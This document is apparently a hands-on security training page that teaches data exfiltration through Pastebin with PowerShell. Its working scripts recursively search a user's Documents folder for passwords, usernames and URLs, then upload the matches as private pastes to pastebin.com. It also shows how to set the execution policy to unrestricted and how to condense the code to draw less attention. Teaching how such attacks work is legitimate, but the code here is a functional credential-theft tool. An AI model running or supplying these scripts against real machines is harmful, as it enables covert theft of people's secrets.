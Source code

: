 ```yaml
---
layout: default
title: Data Exfiltration using Pastebin
nav_order: 6
---
```

# First demo

Go to the folder where you previously created logindata.ps1 and create a new file called `new-pastebin.ps1` with the code below. Open your terminal and run new-pastebin.ps1 (don't doubleclick in windows, run it via the Powershell terminal)

You might have to launch powershell as administrator first to change the set-executionpolicy to "unrestricted"

```
set-executionpolicy unrestricted
```

1. Observe the results. You will see an URL
2. Visit this URL

```
#Demo 1, Something easy. Userkey won't be used yet so everything is anonymous
. .\logindata.ps1
$Content    =   Invoke-WebRequest -Uri "https://ipinfo.io/json"
$Title      =   "pastebin1"

$Body = @{ 
    api_dev_key         = $DevKey;
    #    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "0"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
## Preparing more advanced use of Pastebin
Thus far, our data exiltration is public.​ Thanks to the API key we can upload to Pastebin but we need to use authentication to make it private, so let’s make it private​ 😃.

For this we need to setup our “userkey”​

This means we will use 2 keys​: 
1. Our dev key, which we already have​.
2. Our user key, which still needs creation.

### Userkey creation

Create a new file called `get-apiuserkey.ps1`, using the code below.
```
$DevKey     = PUT-DEV-KEY-HERE
$Username   = PUT-PASTEBIN-USERNAME-HERE
$Password   = PUT-PASTEBIN-PASSWORD-HERE
$PasteBinLogin = "https://pastebin.com/api/api_login.php"
$Body = @{ 
    api_dev_key = $DevKey;
    api_user_name	= $Username;
    api_user_password = $Password;
    }

Invoke-WebRequest -Uri $PasteBinLogin -UseBasicParsing -Body $Body -Method Post -OutFile Api_user_key.txt
```
- Fill in the 3 required variables at the top.
- Run the script from the terminal.
- Your userkey is saved in Api_user_key.txt
- Add this key to logindata.ps1


Once this is done… we’re cooking!

### Create some dummy files
For demo purposes we're going to create 2 dummy files: `password.txt` and `secrets.txt` put these 2 files in your documents folder: `C:\Users\$env:username\Documents`

password.txt has the following contents
```
PUT THIS FILE IN C:\Users\$env:username\Documents
I do silly things like sometimes putting passwords in files. 
```
secret.txt has the following contents
```
PUT THIS FILE IN C:\Users\$env:username\Documents
this is my secret file
my password for example.com is Kameham3ha!
my username for example.com is ThebrokeShadower
https://www.example.com/login-or-something
```
# Second demo
Create a new file called "new-pastebin2.ps1" and copy paste the following data in it:
```

#Demo 2, let's grab some passwords from local files!
. .\logindata.ps1
$Content    =   ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path
$Title      =   "pastebin2"

$Body = @{ 
    api_dev_key         = $DevKey;
    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "2"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
Execute new-pastebin2.ps1 from the terminal. If all goes well, you will have this pastebin under your personal account on the pastebin.com website.
But there seems to be a problem?

# Third demo

Powershell stores the data in an object. Which is not bad but invoke-webrequest doesn’t understand it and thus the parsing is bad.
Let’s convert the data to a format which will work.
Create new-pastebin3.ps1 and observe the difference with new-pastebin2.ps1
```
. .\logindata.ps1
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path)
$Title      =   "pastebin3"

$Body = @{ 
    api_dev_key         = $DevKey;
    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "2"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```


Now launch new-pastebin3.ps1 from the terminal.
Observe the results in your pastebin.com account

# Fourth demo
We want to generate a bit less attention so we will try to have less lines of code on our screen.
Luckily, we can do this by using “;” in powershell
Create new-pastebin4.ps1 and new-pastebin5.ps1

new-pastebin4.ps1
```
. .\logindata.ps1
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path); $Title="pastebin3"
$Body = @{ api_dev_key=$DevKey; api_user_key=$UserKey; api_paste_name=$Title;api_paste_code=$Content;api_paste_private="2";api_option="paste";}
Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
new-pastebin5.ps1
```
$DevKey="PUT-DEVKEY-HERE";$UserKey="PUT-USER-KEY-HERE"
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path); $Title="pastebin3"
$Body = @{ api_dev_key=$DevKey; api_user_key=$UserKey; api_paste_name=$Title;api_paste_code=$Content;api_paste_private="2";api_option="paste";}
Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
Observe the concatenation done in those 2 files.
What is the difference between 4 and 5? Why would this be?
